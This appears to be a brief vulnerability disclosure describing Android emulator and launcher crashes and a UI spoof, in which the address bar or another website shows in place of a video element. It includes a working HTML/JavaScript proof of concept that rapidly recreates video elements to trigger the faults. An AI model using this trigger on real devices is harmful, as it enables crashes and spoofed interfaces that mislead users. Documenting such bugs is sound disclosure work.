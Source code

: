 ```yaml
---
title: Android Crash and UI spoof (Not fixed)
---
```


Android 12 (x86_64): Internal Emulator crash EXCEPTION_ACCESS_VIOLATION_WRITE  
Android 11 (x86): Emulator closes  
Android 9 (x86): Launcher crash `frameworks/av/media/libstagefright/omx/SimpleSoftOMXComponent.cpp:476 CHECK(state == OMX_StateLoaded || state == OMX_StateExecuting)` failed

I have also had issues where the address bar or a different website in the case of a webview get shown instead of the video element.

```html
<script>
  onload = () => {
    createVideo();
    createVideo();
    createVideo();
    createVideo();
    createVideo();
  };

  function createVideo() {
    let v = null;
    setInterval(() => {
      if (v) document.body.removeChild(v);
      v = document.createElement("video");
      v.width = "1000";
      v.src = "video.mp4";
      document.body.appendChild(v);
    }, 2000);
  }
</script>
```
